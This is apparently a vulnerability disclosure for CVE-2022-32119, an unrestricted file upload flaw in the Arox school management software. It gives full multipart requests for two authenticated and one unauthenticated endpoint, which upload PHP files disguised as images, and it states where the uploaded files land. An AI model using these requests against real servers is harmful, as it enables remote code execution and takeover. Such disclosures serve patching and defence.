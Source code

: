 # CVE-2022-32119 - Arox-Unrestricted-File-Upload

There are multiple unrestricted file uploads that result in the arbitrary execution of PHP code.

Authenticated Vulnerable Pages:


localhost/office_admin/?pid=54&action=add


-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="apid"



2

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="title"



Test

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="image_path"; filename="phpfilehere.php.jpg"

Content-Type: image/jpeg



<PHP Code Here>

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="addphoto"



Add

-----------------------------181967832439954202373233921976--

  
File location: localhost/office_admin/images/student_photos/<file here>



  
localhost/office_admin/?pid=22&action=school_details


-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_startdate"



06/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_enddate"



07/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_ac_startdate"



06/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_ac_enddate"



07/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_schoolname"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_currency"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_symbol"



test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_address"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_endclass"





-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_email"



info@test.com

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_phoneno"



1234567899

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_website"



www.test.com

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_school_logo"; filename="phpfilehere.php"

Content-Type: image/jpeg



<PHP Code Here>

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="oldlogoimage"



oldimage.jpg

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="Submit"



Submit

-----------------------------11158482814295139764067111151--


File location: localhost/office_admin/images/school_logo/<file here>



Unauthenticated Vulnerable Pages:

localhost/greatbritain/greatbritain/upload_stafffille.php


-----------------------------80149291128776956634294289925

Content-Disposition: form-data; name="txtdocname"; filename="test.jpg"

Content-Type: image/jpeg



123456

-----------------------------80149291128776956634294289925

Content-Disposition: form-data; name="btnsubmit"



Submit

-----------------------------80149291128776956634294289925--


File location: localhost/greatbritain/greatbritain/upload_data/<file here>
